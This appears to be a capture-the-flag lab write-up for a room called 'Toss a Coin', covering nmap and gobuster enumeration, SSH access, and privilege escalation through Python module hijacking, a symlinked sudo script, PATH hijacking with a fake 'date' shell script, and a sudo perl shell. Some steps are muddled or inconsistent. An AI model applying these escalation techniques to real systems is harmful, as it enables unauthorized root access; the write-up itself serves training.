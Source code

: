 # CTF: Toss a Coin

![Difficulty: Easy](https://img.shields.io/badge/difficulty-easy-%2300ff00)
![Contest Date: 2024-05-07](https://img.shields.io/badge/contest%20date-2024--05--07-informational)
![Category: Web, BruteForce](https://img.shields.io/badge/category-web,bruteforce-%237159c1)
![By: Alexandre & Eloi (Root)](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi%20(Root)-%23f9a03c)  
![alt text](img/tossacoin4.png)
## Description

> Sing with me this amazing song !

## Write-up

The flag is a reference to the song "Toss a Coin to Your Witcher" from the Netflix series "The Witcher".

UserFlag: user.txt
RootFlag: root.txt


## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

MAC Address: 02:EC:2D:13:83:FB (Unknown)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The target machine has two open ports, 22 and 80. Port 80 is running a web server. Let's visit the website.

```
http://$IP
```

We found a page 

![alt text](./img/tossacoin.png)

We use gobuster to find hidden directories. 

```bash
gobuster dir --url http://$IP -w Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results : 
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.93.57
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/16 08:49:09 Starting gobuster
===============================================================
/img (Status: 301)
/t (Status: 301)
Progress: 6045 / 220561 (2.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/05/16 08:49:11 Finished
===============================================================
```

We found two directories `/img` and `/t`. Let's visit the `/t` directory.

http://$IP/t

![alt text](./img//tossacoin2.png)

We do the same thing with the `/t` directory.

```bash
gobuster dir --url http://$IP/t -w Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results : 
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.93.57
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/16 08:49:09 Starting gobuster
===============================================================
/img (Status: 301)
/o (Status: 301)
Progress: 6045 / 220561 (2.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/05/16 08:49:11 Finished
===============================================================
```

We do the same on the `/o` and we have to repeat this action many of times, we found lyrics of the music 

Is the lyrics of the song.

The url is : 
```
http://$IP/t/o/s/s/...
```

We found the flag in the source code of the page.

We found a ssh login. 

```bash
ssh jaskier@$IP
```

We do a `ls` and we found a file `user.txt`.

### Root Flag

The script `toss-a-coin.oy` import `random` volume. We can create a `random` fake module who will execute the code we want.

```bash
echo 'import os; os.system("/bin/bash")' > /home/jaskier/random.py

sudo -u yen /usr/bin/python3.6 -c 'import sys; sys.path.insert(0, "/home/jaskier"); import toss-a-coin'
Sorry, user jaskier is not allowed to execute '/usr/bin/python3.6 -c import sys; sys.path.insert(0, "/home/jaskier"); import toss-a-coin' as yen on the-continent.
```

```
echo 'import os; os.system("/bin/bash")' > /home/jaskier/get_root.py
ln -s /home/jaskier/get_root.py /home/jaskier/toss-a-coin.py
sudo -u yen /usr/bin/python3.6 /home/jaskier/toss-a-coin.py
```

Go to geralt with yen user
Modify the `portal` file of `yen` with replace the var `date` with a PATH

We need to create a file `date`
```bash 
#!/bin/bash 
/bin/bash -i
```

We have to be sure PATH is execute in first. 

```bash
export PATH=/home/jaskier/scripts:$PATH
```

We have to verify the PATH is correct. 

```bash
which date
export PATH=/home/jaskier/scripts:$PATH
```

We are `geralt` user.

```bash
sudo perl -e 'exec "/bin/sh";'
sudo -i
```

**Well done! You have successfully completed the room.**
